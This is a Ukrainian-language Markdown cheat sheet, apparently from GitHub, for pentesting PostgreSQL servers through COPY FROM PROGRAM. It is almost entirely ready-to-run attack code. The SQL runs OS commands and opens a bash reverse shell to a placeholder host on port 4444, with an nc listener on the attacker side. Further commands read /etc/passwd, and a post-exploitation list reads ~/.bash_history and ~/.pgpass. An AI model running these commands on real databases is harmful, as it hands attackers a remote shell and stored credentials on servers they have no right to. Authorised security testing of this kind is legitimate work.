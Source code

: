 # PostgreSQL: Тестування прав на виконання COPY FROM PROGRAM

Цей документ є шпаргалкою для пентесту або аудиту PostgreSQL щодо наявності привілеїв, які дозволяють **виконання системних команд** через SQL.

---

## 📌 Ціль

Визначити, чи має користувач можливість виконання `COPY FROM PROGRAM`, що відкриває вектор до RCE.

---

## ✅ Перевірка версії PostgreSQL

```sql
SELECT version();
-- або
SHOW server_version;
```

---

## ✅ Перевірка поточного користувача

```sql
SELECT current_user, session_user;
```

---

## ✅ Тест на виконання системної команди

### Створення тимчасової таблиці для виводу

```sql
CREATE TEMP TABLE poc_output(line text);
```

### Тестова команда ОС (наприклад `id`)

```sql
COPY poc_output FROM PROGRAM 'id';
SELECT * FROM poc_output;
```

### Reverse shell (приклад з bash)

```sql
COPY poc_output FROM PROGRAM 'bash -c "bash -i >& /dev/tcp/YOUR-IP/4444 0>&1"';
```

На машині атакуючого:

```bash
nc -lvnp 4444
```

---

## 🔍 Перевірка: хто має доступ до COPY FROM PROGRAM

### Перевірити ролі, що мають привілей `pg_execute_server_program`

```sql
SELECT rolname
FROM pg_roles
WHERE pg_has_role(rolname, 'pg_execute_server_program', 'member');
```

### Перевірити, чи поточний користувач має це право

```sql
SELECT has_role(current_user, 'pg_execute_server_program', 'member');
```

---

## 🔎 Перевірка суперкористувача

```sql
SELECT rolname, rolsuper
FROM pg_roles
WHERE rolname = current_user;
```

---

## 🧾 Перевірка /etc/passwd (доказ читання файлів)

```sql
COPY poc_output FROM PROGRAM 'cat /etc/passwd';
SELECT * FROM poc_output;
```

---

## 🛠 Інші корисні перевірки в shell (якщо отримано RCE)

```bash
whoami
id
groups
sudo -l
cat ~/.bash_history
cat ~/.pgpass
ls -la /root
```

---
